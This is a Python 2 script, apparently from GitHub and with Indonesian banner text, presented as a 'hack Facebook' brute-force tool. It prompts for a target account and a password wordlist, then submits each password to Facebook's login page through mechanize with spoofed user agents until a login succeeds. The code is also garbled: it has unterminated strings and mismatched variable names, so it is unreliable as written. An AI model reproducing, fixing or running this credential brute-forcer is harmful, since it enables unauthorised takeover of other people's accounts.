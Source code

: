 #!usr
# -*- coding: UTF-8 -*-
# Mod by: FR3DO
# team: life of programmer


import os
import sys
import time
import random
import cookielib
import mechanize

wd = "\033[90;1m" # dark
GL = "\033[96;1m" # Blue aqua
BB = "\033[34;1m" # Blue light
YY = "\033[33;1m" # Yellow light
GG = "\033[32;1m" # Green light
WW = "\033[0;1m"  # White light
RR = "\033[31;1m" # Red light
CC = "\033[36;1m" # Cyan light
B = "\033[34m"    # Blue
Y = "\033[33;1m"    # Yellow
G = "\033[32m"    # Green
W = "\033[0;1m"     # White
R = "\033[31m"    # Red
C = "\033[36;1m"    # Cyan

def runntxt(s):
        for noobs in s + '\n':
                sys.stdout.write(noobs)
                sys.stdout.flush()
                time.sleep(10. / 2100)


def banner():
    os.system('clear')
    print " "
    runntxt(GL+"    WASPADA!!!!
    runntxt(WW+"     JAGA JARAK
    runntxt(WW+"    JAGA JARAK
    runntxt(GL+"     JAGA JARAK
    runntxt(GG+"          JAGA JARAK
    time.sleep(1.5)
    print GG+"  √=============================================√"
    print GL+"  |••••••   NEW TOOLS HACK FACEBOOK BF.   ••••••|"
    print GG+"  √=============================================√"
    print WW+"  |            MOD BY: FO BAE                   |"
    print GL+"  | CUCI TANGAN DAN MINUM OBAT CACING           |"
    print WW+"  |      KALO MAU TANYA BOLEH FOLLOW            |"
    print Y+"  |             INSTAGRAM: @FREDOESPA            |"
    print GL+"  |---------------------------------------------|"
    print GL+"  |        LIFE OF PROGRAMMER [ L.O.P ]         |"
    print GL+"  |---------------------------------------------|"
    print GG+"  √=============================================√"
    print GL+"  |•••••••••   HACK FACEBOOK    ^_^   •••••••••|"
    print GG+"  √=============================================√"

banner()

print wd+"         https://www.github.com/IqbalzNoobs "
print GG+"╭────\033[91m[\033[96m Masukkan ID\033[95m / \033[96mUsername Target\033[91m ] "
email_target = str(raw_input(GL+"\033[92m╰────➲\033[93m  "))
print " "
print "\033[92m╭────\033[91m[ \033[96mMasukkan File Wordlist \033[95m( pass.txt ) \033[91;1m]"
password_list = str(raw_input(GG+"╰────➲\033[93m "))
login = 'https://www.facebook.com/login.php?login_attempt=1'
useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0','Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Geck')]
# useragents = [('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36','Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36','Mozilla/5.0 (Windows NT 5.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36','Mozilla/5.0 (Windows NT 6.2; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36','Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.157 Safari/537.36','Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36','Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36','Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36',)]

def pil():
                print GG+" "
                g = str(raw_input("[?] Hack Fb lagi..\033[93;1m[y/n]: "))
                if g == 'y' or g == 'Y':
                    os.system('python2 Fobae.md')
                elif g == 'n' or g == 'N':
                    print wd+"Keluar dari program..."
                    sys.exit()
                else:
                    print RR+"Pilih yang bener cuk..."
                    pil()

def edit_wordlist():

        print GG+" "
        ed = str(raw_input("[?] Edit wordlist cuk.? \033[96;1m[y/n]: "))
        if ed == 'y' or ed == 'Y':
                os.system('nano '+password_list)
                pil()
        elif ed == 'n' or ed == 'N':
                print wd+"Keluar Dari Program..."
                sys.exit()

        else:
                print RR+"Pilih yg bener cuk..."
                edit_wordlist()

def main():
        global noobs
        noobs = mechanize.Browser()
        cj = cookielib.LWPCookieJar()
        noobs.set_handle_robots(False)
        noobs.set_handle_redirect(True)
        noobs.set_cookiejar(cj)
        noobs.set_handle_equiv(True)
        noobs.set_handle_referer(True)
        noobs.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
        runn_noobs()
        life()
        print " "
        print RR+" wordlist tidak ada yg cocok..."
        print " "
def fr3do(Fobae_password):
  try:
 	sys.stdout.write(GG+"\n[\033[91m+\033[92m]\033[91;1m [\033[97m"+email_target+"\033[91m]\033[90m Mencoba ==> \033[91m[\033[90;1m"+iqbalz_password)
	sys.stdout.flush()
	noobs.addheaders = [('User-agent', random.choice(useragents))]
	site = noobs.open(login)
	noobs.select_form(nr = 0)
	noobs.form['email'] = email_target
	noobs.form['pass'] = iqbalz_password
	tom = noobs.submit()
	mask = tom.geturl()
	if mask != login and (not 'login_attempt' in mask):
                        print " "
			print ("\033[96m                S U C C E S S")
			print "          P A S S W O R D  F I N D "
                  	print RR+"+-------------------------------------------+"
	         	print (RR+"#\033[97m ID / Email Target:\033[92m {}").format(email_target)
        	        print (RR+"#\033[97m Password Target:\033[92m {}").format(fobae_password)
        	        print " "
        	        raw_input(WW+"TEKAN ENTER UNTUK KELUAR...")
			sys.exit(1)
  
  
  except KeyboardInterrupt:
      print wd+"Stop......."
      edit_wordlist()
      sys.exit()    	    
def life():
	global iqbalz_password
	password_nob = open(password_list, "r")
	for iqbalz_password in password_nob:
		password_nob = iqbalz_password.replace("\n","")
		fr3do(Fobae_password)		

def runn_noobs():
         global password_list

         lop = GG+"""

                  `.-://////:-.`
              .:+o+:-..````..-:+o+:.
           `:o+-`                `:+o:`
         `/o:`                      `:o/`
        -s/`  .-..`            `..--` `/s-
       /o.   `:.`.-:----------:-.``:-   .o/
      /o`    .:`    `              --    `o/
     -s.     .:`                   --     .s-
     o/     .:`                     --     +o
    .s-     :.                      `:`    -s`
    .s.     :.                      `:`    .s.
    .s-     --                      .:     -s.
     o/     `-.                    `-.     /o
     -s.     `--`                `.-`     .s-
      /o` ----``..--..`    `...--.`      `o/
       /o. `----`  `-.      `-.         .o/
        -o:  -.......        ..       `:o-
         `:o:``....--        ..     `:o:`
           `:+/-`  `-        ..  `-/+:`
              `-/+///..````..://+/-`
                  `.-::////::-.` \033[91;1m

                \033[90;1mLife Of Programmer\033[91;1m
             Powered by:\033[97m fobae Noobs
      """


         print lop
         nuub = open(password_list, 'r')
         nuub = nuub.readlines()
         print wd+" [#] ID / Username Target\033[97;1m: {}".format(email_target)
         print wd+" [#] JUmlah Password saat ini\033[97;1m:", len(nuub),'password'
         print wd+" [#] Tunggu Proses Cracking\033[97;1m.........."
         print " "

if __name__=='__main__':
	main()	
